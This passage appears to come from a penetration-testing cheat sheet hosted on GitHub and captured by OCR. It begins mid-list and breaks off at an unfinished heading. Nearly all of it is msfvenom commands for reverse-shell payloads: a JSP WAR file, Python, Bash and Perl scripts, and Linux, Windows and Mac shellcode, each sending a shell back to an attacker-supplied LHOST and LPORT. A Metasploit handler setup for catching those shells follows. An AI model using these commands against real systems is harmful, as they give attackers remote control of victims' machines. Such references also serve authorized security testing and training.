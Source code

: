       *WAR*

      msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
      
      **Scripting Payloads**
      
      *Python*

      msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
      
      *Bash*

      msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
      
      *Perl*

      msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
      
      **Shellcode**
      
      For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

      *Linux Based Shellcode*

      msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
      
      *Windows Based Shellcode*

      msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
      
      *Mac Based Shellcode*

      msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

      **Handlers**
      Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

      use exploit/multi/handler
      
      set PAYLOAD <Payload name>
      
      set LHOST <LHOST value>
      
      set LPORT <LPORT value>
      
      set ExitOnSession false
      
      exploit -j -z
      
      Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

-   SSH to Meterpreter:
